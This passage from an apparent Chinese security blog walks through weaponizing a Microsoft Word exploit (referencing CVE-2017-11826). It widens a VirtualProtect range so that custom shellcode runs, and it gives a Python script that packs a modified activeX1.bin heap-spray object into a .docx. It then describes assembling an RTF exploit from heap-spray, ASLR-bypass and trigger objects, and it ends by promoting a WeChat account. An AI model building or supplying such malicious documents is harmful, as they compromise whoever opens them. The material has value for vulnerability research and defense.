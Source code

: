 然而VirtualProtect的修改的内存范围只有`0x08888c90 - 0x08888e91`，而shellcode却位于`0x08888f70`，因此会触发c0000005访问异常，shellcode执行失败：

[![](https://p4.ssl.qhimg.com/t018f9bcaf8e74d8f48.png)](https://p4.ssl.qhimg.com/t018f9bcaf8e74d8f48.png)

### <a class="reference-link" name="%E5%88%A9%E7%94%A8%E6%94%B9%E9%80%A0"></a>利用改造

activeX1.bin文件中布局如下：

[![](https://p4.ssl.qhimg.com/t0179b44835f488087b.png)](https://p4.ssl.qhimg.com/t0179b44835f488087b.png)

由于原本VirtualProtect修改的范围为0x201不够，因此修改为0x1000确保能够覆盖shellcode，随后将shellcode替换为自己的shellcode即可。

将修改好的activeX1.bin文件替换到rtfobj.py提取出来进行堆喷的文档中，并修改为.docx，脚本参考[Exploiting Word: CVE-2017-11826](https://www.tarlogic.com/blog/exploiting-word-cve-2017-11826/)一文，替换脚本如下：

```
import osimport shutilimport zipfiletemplate_path = ""final_docx_name = ""activeX_bin_path = ""def pack_file_to_open_xml_docx(template_path, final_docx_name, activeX_bin_path):     if not os.path.exists(template_path) or not os.path.exists(activeX_bin_path):        print("Template docx file or activeX.bin file not exist.")        return    with open(activeX_bin_path, "rb") as f_:         object_bin_data = f_.read()    zip_docx = template_path + ".zip"    current_dir = os.path.abspath(os.path.dirname(__file__))    new_path = os.path.join(current_dir, "exp", os.path.basename(zip_docx))     if os.path.exists(new_path):        os.remove(new_path)    shutil.copy(template_path, new_path)     zip_docx = new_path    # open temp docx and a copy for modification     zin = zipfile.ZipFile(zip_docx, 'r')     zip_docx_copy = zip_docx + "_copy_"     zout = zipfile.ZipFile(zip_docx_copy, "w")    # modify the docx template with exploit     for item in zin.infolist ():        if item.filename.find("activeX1") &gt;= 0 and item.filename.find(".bin") &gt;= 0:             pass        else:            buffer = zin.read(item.filename)            zout.writestr(item, buffer) # use existing file                zout.writestr("word/activeX/" + "activeX1.bin", object_bin_data)     zout.close ()     zin.close ()    # convert to docx    os.rename (zip_docx_copy, final_docx_name)     os.remove(zip_docx)pack_file_to_open_xml_docx(template_path, final_docx_name, activeX_bin_path)
```

新建一个rtf文件，将替换好的docx文件添加到rtf文件中，保存后使用010Editor打开，搜索object，将`{`\object和`{`*\objdata的全部内容复制:

[![](https://p1.ssl.qhimg.com/t011302b5e672a8a5b0.png)](https://p1.ssl.qhimg.com/t011302b5e672a8a5b0.png)

再新建一个rtf文件，按照堆喷射、Bypass ASLR和漏洞触发的顺序添加三个对象。堆喷射的内容就是上方复制好的内容，其他两个可以直接在原EXP中复制过来即可，最终EXP的结构如下所示：

[![](https://p3.ssl.qhimg.com/t01600d2e212688f016.png)](https://p3.ssl.qhimg.com/t01600d2e212688f016.png)

最终成功执行了shellcode：

[![](https://p0.ssl.qhimg.com/t01f356241a42276334.png)](https://p0.ssl.qhimg.com/t01f356241a42276334.png)

更多内容请前往微信公众号：**天玄安全实验室**



## 参考链接
